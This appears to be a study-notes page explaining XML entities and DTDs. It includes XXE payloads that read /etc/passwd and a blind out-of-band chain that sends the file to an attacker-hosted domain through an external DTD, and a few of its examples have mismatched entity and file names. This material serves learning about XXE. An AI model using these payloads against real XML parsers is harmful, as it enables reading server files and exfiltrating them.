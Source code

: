 # Extensible Markup Language (XML)

> XML (Extensible Markup Language) is a markup language similar to HTML, but without predefined tags to use. Instead, you define your own tags designed specifically for your needs. This is a powerful way to store data in a format that can be stored, searched, and shared. *- [Mozilla](https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction)*

---

## Basic Structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Comment Format -->
<message>
	<banner>Hello World!</banner>
</message>
```

---

## XML Entities

XML entities are variables in an XML document. When an XML document contains an entity, it will be replaced by its value when the document is processed.

There are several constant entities whose values don't change. You can also define your own entities.

### Constant Entities

| Entity | Value |
| --- | --- |
| `&lt;` | < |
| `&gt;` | > |
| `&amp;` | & |
| `&apos;` | ' |
| `&quot;` | " |

### General Entities

General entities are specified in the XML document's [[xml#Document Type Definition DTD|DTD]]. There are two types: regular or internal entities and external entities.

#### Regular/Internal Entities

Regular/internal entities' values are defined within the XML document's [[xml#Document Type Definition DTD|DTD]]. For example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY hello_world_string "Hello World!"> ]>
<message>
	<banner>
		&hello_world_string; <!-- Will be replaced with "Hello World!" when the document is processed -->
	</banner>
</message>
```

#### External Entities

External entities' values are defined by reading in the content of a resource at a **URL**. They are designated with the `SYSTEM` keyword.

For example, to set the value of the `contents` entity to the value of the server-local file `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY contents SYSTEM "file:///etc/passwd"> ]>
<message>
	<banner>&contents;</banner>
</message>
```

To set the value of the `contents` entity to the value of the data at `http://tgihf.click/blah`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY contents SYSTEM "http://tgihf.click/blah"> ]>
<message>
	<banner>&contents;</banner>
</message>
```

### Parameter Entities

Parameter entities are XML entities who can **only be used in a [[xml#Document Type Definition DTD|DTD]] (internal or external)**. Parameter entities are specified with the `%` character.

#### Parameter Entities & Internal DTDs

One of the most significant features of parameter entities is that they can be assigned the value of another entity.

Consider the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY % parameter_entity_name "<!ENTITY general_entity 'blah'>">
	%parameter_entity;
]>
<data>&general_entity;</data>
```

The parser assigns the string `<!ENTITY general_entity 'blah'>` to the parameter entity `%parameter_entity;`, effectively resulting in the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY % parameter_entity_name "<!ENTITY general_entity 'blah'>">
	<!ENTITY general_entity 'blah'>
]>
<data>&general_entity;</data>
```

Thus, when the document is fully parsed, `&general_entity;` will be replaced with the string `blah`, like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY % parameter_entity_name "<!ENTITY general_entity 'blah'>">
	<!ENTITY general_entity 'blah'>
]>
<data>blah</data>
```

#### Parameter Entities & External DTDs

The significant drawback of using parameter entities within a document's internal [[xml#Document Type Definition DTD|DTD]] is that according to the XML specification, it is illegal to reference a parameter entity within a markup declaration in an internal [[xml#Document Type Definition DTD|DTD]].

For example, consider the following XML document:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY % passwd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://tgihf.click?f=%passwd;'>">
	%wrapper;
]>
<data>&send;</data>
```

The parser *seems* like it would do the following:

1. Assign the contents of `/etc/passwd` to the parameter entity `passwd`
2. Assign the string `<!ENTITY send SYSTEM 'http://tgihf.click?f=&passwd;'` to the parameter entity `wrapper`. The value of the `passwd` parameter entity would be the contents of `/etc/passwd`, resulting in the `wrapper` parameter entity value of `<!ENTITY send SYSTEM 'http://tgihf.click?f=$CONTENTS_OF_ETC_PASSWD'`
3. Expand the `wrapper` parameter entity, creating the general entity `send` whose value is the result of making the HTTP request to `http://tgihf.click?f=$CONTENTS_OF_ETC_PASSWD`
4. Expand the `send` general entity within the body of the document

However, the parser would fail at step 2 because **within an internal [[xml#Document Type Definition DTD|DTD]], it is illegal to reference a parameter entity within a markup declaration.**

This is, however, completely legal **within an external [[xml#Document Type Definition DTD|DTD]]**.

Consider the attacker is hosting the following [[xml#Document Type Definition DTD|DTD]] at `http://tgihf.click/tgihf.dtd`:

```xml
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://tgihf.click/?f=%passwd;'>">
%wrapper;
```

The attacker then inputs the following XML document, which the target web application parses:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE send SYSTEM "http://tgihf.click/blah.dtd">
<!-- You could use the below external parameter entity as an alternate to the above external general entity -->
<!-- <!DOCTYPE foo [
	<!ENTITY % send SYSTEM "http://tgihf.click/blah.dtd"> 
	%send;
]>
-->
<data>blah</data>
```

The parser will:

1. Evaluate the internal [[xml#Document Type Definition DTD|DTD]], which contains the general external entity `send` whose value is the contents of the external [[xml#Document Type Definition DTD|DTD]] that the attacker is hosting at `http://tgihf.click/blah.dtd`
2. Evaluate the fetched external [[xml#Document Type Definition DTD|DTD]]:
3. Assign the contents of the server-local file `/etc/passwd` to the `passwd` parameter entity
4. Insert those contents into the string `<!ENTITY send SYSTEM 'http://tgihf.click/?f=$CONTENTS'` and assign that string to the parameter entity `wrapper`
5. Evaluate the entity `wrapper`, which makes an HTTP `GET` request to `http://tgihf.click/?f=$CONTENTS`

---

## Document Type Definition (DTD)

The XML document type definition (DTD) contains declarations that define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional `DOCTYPE` element at the beginning of the XML document, like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE $STUFF >
```

A DTD can refer only to the current XML document (known as an "internal DTD") or it can be loaded from elsewhere (known as an "external DTD") or can be a hybrid of the two.

---

## References

[Mozilla - XML](https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction)

[PortSwigger Web Security Academy - XML entities](https://portswigger.net/web-security/xxe/xml-entities#:~:text=What%20are%20XML%20entities%3F,represent%20the%20characters%20.)
